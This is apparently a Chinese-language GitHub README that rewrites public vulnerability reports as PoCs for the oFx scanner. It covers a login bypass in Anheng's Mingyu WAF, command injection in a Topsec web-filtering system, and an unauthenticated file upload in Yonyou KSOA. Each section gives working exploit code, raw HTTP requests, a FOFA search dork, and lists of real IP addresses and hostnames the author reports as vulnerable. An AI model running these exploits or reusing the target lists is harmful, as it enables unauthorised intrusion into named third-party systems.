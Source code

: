 # 2022HW
今年因为种种原因没有参与hw，非常遗憾，今天才终于稍微抽出一点身，加上心血来潮，想着写这么一个文档，有三个目的：
* 为了能有一份参与感，当作对hw的跟进吧
* 能让一些参与hw的师傅看了以后迅速了解oFx在全网验证POC有效性方面的能力，有兴趣的话就可以立即动手尝试一下  
* 跟笔者一样没参与hw的同学也可以拿POC来玩一玩

本文档以网络上公开的漏洞为单位，笔者会去寻找POC，然后改成oFx的POC，去全网扫描，如果有命中POC规则的资产，经过手动测试以后确认可以利用，则说明``漏洞真实``和``POC有效``，如果没有命中规则的资产，则说明``POC无效``或``漏洞真实性存疑``  

工作事忙，笔者会尽量每天一更  

## 安恒信息-明御WAF登陆绕过

根据情报，POC地址：https://github.com/midisec/pocsuite-poc/blob/main/pocs/mingyu_login_bypass.py

尝试写oFx POC：
```py
vuln = [False,""]
url = self.target + "/report.m?a=rpc-timed" # url自己按需调整

headers = {
            "Cookie": "WAFFSSID=123456",
            "User-Agent":get_random_ua(),
            "Connection":"close",
            }

try:
    """
    检测逻辑，漏洞存在则修改vuln值为True，漏洞不存在则不动
    """
    req0 = requests.get(url,headers = headers , proxies = self.proxy ,timeout = self.timeout,verify = False)
    req1 = requests.get(self.target,headers = headers , proxies = self.proxy ,timeout = self.timeout,verify = False)
    if req0.status_code == 200 and "系统管理员" in req1.text:
        vuln = [True,req1.text]
    else:
        vuln = [False,req1.text]
except Exception as e:
    raise e
```

fofa dork是：``app="安恒信息-明御WAF"``，全网资产数量165个  

扫描结果，命中规则5个资产：
```
https://61.161.193.5
https://58.244.62.126:1443
https://61.184.79.99:14443
https://222.243.158.38:10443
https://202.107.190.91:50001
```

手动验证：
假设目标url为``http://target/``  

第一步，访问``http://target/report.m?a=rpc-timed``，不用管返回结果  

第二步访问``http://target/``，如果界面长这样：
![show](../img/009.png)
就说明成功绕过登陆了


结论：漏洞真实，POC有效，已收录至oFx  


## 天融信-上网行为管理系统 static_convert.php 命令注入漏洞

情报地址：balabala...

尝试写POC：
```py
vuln = [False,""]
con_flag = random_str(10)
content = hashlib.md5(con_flag.encode()).hexdigest()
url = self.target + "/view/IPV6/naborTable/static_convert.php?blocks[0]=|echo '<?php echo md5({num});unlink(__FILE__);?>' >>/var/www/html/{name}.php".format(num=con_flag,name = con_flag) # url自己按需调整

headers = {
            "User-Agent":get_random_ua(),
            "Connection":"close",
            }

try:
    """
    检测逻辑，漏洞存在则修改vuln值为True，漏洞不存在则不动
    """
    req0 = requests.get(url,headers = headers , proxies = self.proxy ,timeout = self.timeout,verify = False)
    req1 = requests.get(self.target + "/" + con_flag + ".php",headers = headers , proxies = self.proxy ,timeout = self.timeout,verify = False)
    if req0.status_code == 200 and content in req1.text:
        vuln = [True,"<title>" + self.target + "/" + con_flag + ".php" + "</title> \n" + req1.text]
    else:
        vuln = [False,req0.text]
except Exception as e:
    raise e
```
fofa dork是：``app="天融信-上网行为管理系统"``，全网资产328台  

扫描结果，命中规则30➕条，依旧例，展示五条：
```
https://221.226.88.186:4433
https://220.165.246.249:8443
https://222.82.218.174:8443
https://111.43.98.222
https://218.66.6.85:8090
```

手动验证：  
假设目标url为``http://target/``  

第一步，访问``http://target/view/IPV6/naborTable/static_convert.php?blocks[0]=|echo '<?php echo 123;?>' >>/var/www/html/test12344321.php``(ps：写文件内容和保存路径都是我随便编的，ofx的poc在这部分内容做了随机化处理)  

第二步，访问``http://target/test12344321.php``，如果返回的内容是``123``，则说明漏洞存在复现成功  

结论：漏洞真实，POC有效，已收录至oFx  


## 用友 时空KSOA 前台文件上传漏洞

情报地址：balabala...

尝试写POC：
```py
vuln = [False,""]
con_flag = random_str(10)

url = self.target + "/servlet/com.sksoft.bill.ImageUpload?filepath=/&filename={name}.jsp".format(name=con_flag) # url自己按需调整


headers = {
            "User-Agent":get_random_ua(),
            "Connection":"close",
            }

data = """<% out.println("{content}"); %>""".format(content = con_flag)

try:
    """
    检测逻辑，漏洞存在则修改vuln值为True，漏洞不存在则不动
    """
    req0 = requests.post(url,data=data,headers = headers , proxies = self.proxy ,timeout = self.timeout,verify = False)
    flag = re.search('(?<=<root>).*(?=</root>)',req0.text).group(0)
    req1 = requests.get(self.target + flag,headers = headers , proxies = self.proxy ,timeout = self.timeout,verify = False)
    
    if con_flag in req1.text:
        vuln = [True,"<title>" + self.target + flag + "</title>\n" + req1.text]
    else:
        vuln = [False,req0.text]
except Exception as e:
    raise e
```
fofa dork是：``app="app="用友-时空KSOA""``，全网资产3400➕台  

扫描结果，命中规则1200➕条，依旧例，展示五条：
```
http://121.42.35.91:8899
http://10.hctmes.com:89
http://www.mba.hctmes.com:89
http://csr21.net.hctmes.com:89
http://219.130.112.85:2020
```

手动验证：  
假设目标url为``http://target/``  

第一步，发送请求：
```r
POST /servlet/com.sksoft.bill.ImageUpload?filepath=/&filename=test1234554321.jsp HTTP/1.1
Host: target
User-Agent: Mozilla/5.0 (Windows NT 6.1) AppleWebKit/534.24 (KHTML, like Gecko) Chrome/11.0.699.0 Safari/534.24
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Length: 32

<% out.println("test1234554321"); %>
```
返回结果应该为：
```r
HTTP/1.1 200 OK
Server: Apache-Coyote/1.1
Pragma: no-cache
Expires: 0
Content-Type: text/xml;charset=GBK
Vary: Accept-Encoding
Date: Fri, 05 Aug 2022 18:46:38 GMT
Connection: close

<root>/pictures/test1234554321.jsp</root>
```

第二步，访问``http://target/pictures/test1234554321.php``，如果返回的内容是``test1234554321``，则说明漏洞存在复现成功  

结论：漏洞真实，POC有效，已收录至oFx  